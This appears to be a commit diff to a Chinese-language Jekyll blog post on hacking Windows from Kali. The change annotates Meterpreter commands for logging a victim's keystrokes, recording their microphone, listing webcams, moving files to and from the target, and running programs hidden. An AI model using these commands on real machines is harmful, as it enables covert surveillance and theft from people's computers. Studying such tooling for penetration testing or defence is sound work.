

Before and after one commit to Sunbertrs/sunbossrs-blog-v1, a Jekyll site: the page built from _posts/2019-03-05-KaliHackWindows.md, in a window 1280 px wide and 1400 px high, scrolled down 7865 px. Shown: the top 952 px of the window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2019-03-05-KaliHackWindows.md

````diff
--- a/_posts/2019-03-05-KaliHackWindows.md
+++ b/_posts/2019-03-05-KaliHackWindows.md
@@ -167,14 +167,18 @@
 - 监视键盘按下内容
 ```msf
 keyscan_start
+//开启键盘记录
 keyscan_dump
-
+//显示键盘输入内容
 keyscan_stop
+//停止键盘记录
 ```
 - 录制声音
 ```msf
-record -d XX秒
+record -d xx
+//录制音频xx秒
 record_mic
+//录制音频
 ```
 - 截屏
 ```msf
@@ -186,9 +190,22 @@
 ```
 - 从目标机器下载东西
 ```msf
-download C:\\path\to\file
+download C:\\path\\to\\file
 ```
 - 从kali上传内容到目标机器
 ```msf
-upload ~/file C:\\path\up\
+upload ~/file C:\\path\\up\\
 ```
+- 查看有几个摄像头
+```msf
+webcam_list
+```
+-运行程序
+```msf
+execute -f 文件名
+//运行文件
+execute -f -H 文件名
+//隐秘的运行应用
+execute -i -f -H 文件名
+//隐秘的交互进行应用,当文件名为cmd时meterpreter命令行会变成cmd
+```
````
